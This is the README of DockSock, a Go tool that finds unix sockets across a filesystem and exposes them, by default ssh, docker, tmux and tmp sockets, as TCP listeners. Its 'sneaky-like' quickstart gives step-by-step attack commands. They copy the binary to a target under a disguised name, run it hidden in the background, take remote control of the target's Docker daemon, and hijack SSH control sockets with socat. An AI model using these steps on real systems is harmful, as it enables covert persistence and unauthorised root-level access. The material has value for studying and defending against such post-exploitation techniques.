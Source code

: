 DockSock
========

Nifty little TCP -> Unix Socket proxy.  Meant to expose docker/ssh control
sockets to the network.

It periodically searches the entire filesystem for unix sockets and for each
one found spawns a TCP listener which will accept connections and proxy them to
the Unix socket.  The starting (i.e. lowest) port is configurable.

A regex (by default `ssh|docker|tmux|tmp`) is used to filter the sockts
exposed.  

The list of found an served sockets can be found by making a TCP connection
(e.g. with netcat) to the lowest port, which by default is `61111`.

For legal use only.

Quickstart
----------
```bash
go install github.com/magisterquis/docksock
docksock -v
```

Slightly Less Quickstart, sneaky-like
-------------------------------------
```bash
# Build the tool
go get github.com/magisterquis/docksock
go build -o docksock github.com/magisterquis/docksock

# Put it on target
scp docksock user@target:/bin/scpd
ssh user@target 'nohup /bin/scpd >/dev/null 2>&1 &'

# Give it time to find some sockets
sleep 60

# List the available sockets
nc target 61111

# Connect to something fun
docker -H target:61112 version

# Even deviouser
socat -d -d unix-listen:./s,fork tcp:target:61113 &
ssh -S ./s user@a
```
